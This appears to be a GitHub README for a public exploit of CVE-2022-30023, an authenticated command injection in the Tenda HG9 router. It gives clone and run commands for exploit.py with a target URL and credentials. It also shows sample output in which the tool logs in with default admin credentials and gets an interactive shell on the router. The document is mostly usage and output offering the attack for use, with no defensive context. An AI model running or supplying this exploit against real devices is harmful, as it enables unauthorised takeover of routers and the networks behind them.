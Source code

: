 # CVE-2022-30023

Authenticated Command Injection on Tenda HG9 Router

#### Usage
```
git clone https://github.com/Haniwa0x01/CVE-2022-30023
cd CVE-2022-30023
python exploit.py -u http://target -U "user" -P "password"
```

#### Example

```
pc@pc-note:~/CVE-2022-30023/$ python3 exploit.py -u "http://10.0.0.1" -U "admin" -P "admin"
[!]: Logged!
[CMD]: ls -la

drwxrwxr-x    3 admin    root            54 Jan 25  2021 .
drwxrwxr-x    3 admin    root            28 Jan 25  2021 ..
-rwxrwxr-x    1 admin    root          6306 Jan 25  2021 boa.conf
drwxrwxr-x    6 admin    root          5129 Jan 25  2021 web

[CMD]:
```
